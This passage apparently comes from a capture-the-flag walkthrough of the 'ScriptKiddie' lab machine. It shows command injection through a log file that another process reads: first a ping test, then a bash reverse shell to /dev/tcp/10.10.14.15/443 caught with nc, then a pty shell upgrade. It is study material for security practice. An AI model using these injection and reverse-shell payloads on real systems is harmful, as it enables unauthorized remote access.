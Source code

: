 

    kid@scriptkiddie:~/logs$ echo "x x x 127.0.0.1; ping -c 1 10.10.14.15 #"  > hackers



Immediately there's ICMP at `tcpdump`:



    oxdf@parrot$ sudo tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    12:50:17.736260 IP 10.10.10.226 > 10.10.14.15: ICMP echo request, id 1, seq 1, length 64
    12:50:17.736296 IP 10.10.14.15 > 10.10.10.226: ICMP echo reply, id 1, seq 1, length 64



#### Shell

With command injection verified, I'll update the payload from a `ping`
to a reverse shell. I could also do things like writes a SSH key or make
a SUID copy of `sh`.

I'll write this payload with a reverse shell to the logs:



    kid@scriptkiddie:~/logs$ echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.15/443 0>&1' # ."  > hackers



Immediately at `nc` there's a connection:



    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.15] from (UNKNOWN) [10.10.10.226] 52532
    bash: cannot set terminal process group (873): Inappropriate ioctl for device
    bash: no job control in this shell
    pwn@scriptkiddie:~$



Same shell upgrade for command history:



    pwn@scriptkiddie:~$ python3 -c 'import pty;pty.spawn("bash")'
    python3 -c 'import pty;pty.spawn("bash")'
    pwn@scriptkiddie:~$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    pwn@scriptkiddie:~$ 



#### Common Issues
